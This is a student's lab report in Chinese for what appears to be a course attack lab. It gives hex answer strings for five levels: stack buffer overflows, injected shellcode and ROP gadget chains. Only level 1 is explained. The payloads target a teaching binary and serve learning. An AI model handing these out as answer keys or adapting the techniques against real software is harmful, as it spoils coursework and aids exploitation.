

# ICSⅠ Lab3 报告

计算机科学与技术

19307130296

孙若诗

## 运行截图

1. **level1**  
  
2. **level2**  

3. **level3**

4. **level4**

5. **level5**

## 字符答案

1. **level1**  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
c0 17 40 00 00 00 00 00  
2. **level2**
48 c7 c7 fa 97 b9 59 68
ec 17 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
3. **level3**
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61
4. **level4**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
5. **level5**
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
70 1a 40 00 00 00 00 00
13 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61

## 解题过程

1. **level1**
阅读$getbuf$及$touch1$对应的汇编语句片段，即下图。

发现$getbuf$第一句申请了0x28即40个byte的栈空间，如果get的大小超过缓冲区，将产生溢出。
原本进入$getbuf$之前栈顶存储的应当是下一句执行语句的位置，则将溢出值设置为$touch1$开始位置4017c0，可以误导程序调用$touch1$。
因此答案字符串即为：任意40个byte来填满缓冲区（0a除外，因为它代表\n，会让程序误以为读入结束），后接c0 17 40 00 00 00 00 00，采取小端法。
16进制数两个一组，恰好为1个byte；八组一行，整洁直观，便于检查。

2. **level2**

3. **level3**

4. **level4**

5. **level5**

## 实验总结

1. 了解了程序在缓冲区溢出时存在的安全漏洞，栈随机化和栈不可执行能够在一定程度上提供防护，但仍旧可以通过ROP方法绕过防护。
2. 对执行语句和变量地址在栈中的存储和使用顺序有了更清晰的认识。
3. 思考ROP方法中截取机器码的过程，只是在栈中加入了对应机器码的首地址，就可以执行对应命令。可见计算机能够自动识别机器码的开头，并猜测每个开头对应的机器码需要是唯一的，只有这样计算机才知道之后到哪里截止是一条完整的指令。这十分类似哈夫曼树的构造规则，开头互异是消除歧义的有效规定。
4. 有关实验过程中的更多文件和源代码，可查阅[lab3-attack](https://github.com/moyiii-ai/ICS-2020/tree/main/lab3-attack)。
